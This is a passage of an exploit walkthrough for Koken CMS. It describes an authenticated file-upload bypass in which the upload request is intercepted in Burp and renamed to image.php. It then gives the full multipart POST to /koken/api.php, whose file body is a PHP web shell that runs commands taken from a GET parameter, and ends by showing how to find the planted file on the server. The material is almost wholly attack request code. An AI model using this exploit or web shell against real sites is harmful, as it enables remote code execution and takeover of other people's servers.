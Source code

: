 ```sh
3. Authenticated, go to Koken CMS Dashboard, upload your file on "Import Content" button (Library panel) and send the HTTP request to Burp.

4. On Burp, rename your file to "image.php"


POST /koken/api.php?/content HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://target.com/koken/admin/
x-koken-auth: cookie
Content-Type: multipart/form-data; boundary=---------------------------2391361183188899229525551
Content-Length: 1043
Connection: close
Cookie: PHPSESSID= [Cookie value here]

-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="name"

image.php
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="chunk"

0
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="chunks"

1
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="upload_session_start"

1594831856
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="visibility"

public
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="license"

all
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="max_download"

none
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="file"; filename="image.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']);?>

-----------------------------2391361183188899229525551--



5. On Koken CMS Library, select you file and put the mouse on "Download File" to see where your file is hosted on server.
```
{% endraw %}
